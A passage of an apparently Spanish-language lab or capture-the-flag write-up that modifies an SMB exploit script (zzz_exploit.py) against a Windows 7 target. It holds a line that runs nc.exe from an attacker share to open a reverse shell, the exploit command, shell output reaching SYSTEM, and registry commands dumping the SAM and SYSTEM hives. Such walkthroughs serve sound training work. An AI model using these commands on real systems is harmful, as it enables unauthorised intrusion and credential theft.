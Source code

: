 Una vez hecho esto ya funcionará el `exploit`, pero estará creando un archivo `pwned.txt`, que a nosotros no nos interesa. Para que nos mande una `reverse shell` debemos `modificar` este `método` de `python`

```
def smb_pwn(conn, arch):
	#smbConn = conn.get_smbconnection()
	
	#print('creating file c:\\pwned.txt on the target')
	#tid2 = smbConn.connectTree('C$')
	#fid2 = smbConn.createFile(tid2, '/pwned.txt')
	#smbConn.closeFile(tid2, fid2)
	#smbConn.disconnectTree(tid2)
	
	#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
	service_exec(conn, r'cmd /c \\10.10.16.35\smbFolder\nc.exe -e cmd 10.10.16.35 9003')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
```

Una vez hecho esto `ejecutamos` el `exploit`

```
# python2 zzz_exploit.py 10.129.204.243 lsarpc
```

`Obtenemos` una `consola` como el usuario `Administrator`

```
# nc -nlvp 9003                                       
listening on [any] 9003 ...
connect to [10.10.16.35] from (UNKNOWN) [10.129.204.243] 49160
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

## Extras (Dump SAM and SYSTEM)

Nos `dumpeamos` la `sam` y el `system` de forma local

```
C:\Windows\Temp\PostExploitation> reg save hklm\sam C:\Windows\Temp\PostExploitation\sam
The operation completed successfully.

C:\Windows\Temp\PostExploitation> reg save hklm\system C:\Windows\Temp\PostExploitation\system
The operation completed successfully.

C:\Windows\Temp\PostExploitation> dir
 Volume in drive C has no label.
 Volume Serial Number is BE92-053B

 Directory of C:\Windows\Temp\PostExploitation

11/08/2024  12:36    <DIR>          .
11/08/2024  12:36    <DIR>          ..
11/08/2024  12:36            24,576 sam
11/08/2024  12:36        10,649,600 system
               2 File(s)     10,674,176 bytes
               2 Dir(s)   2,416,324,608 bytes free
```
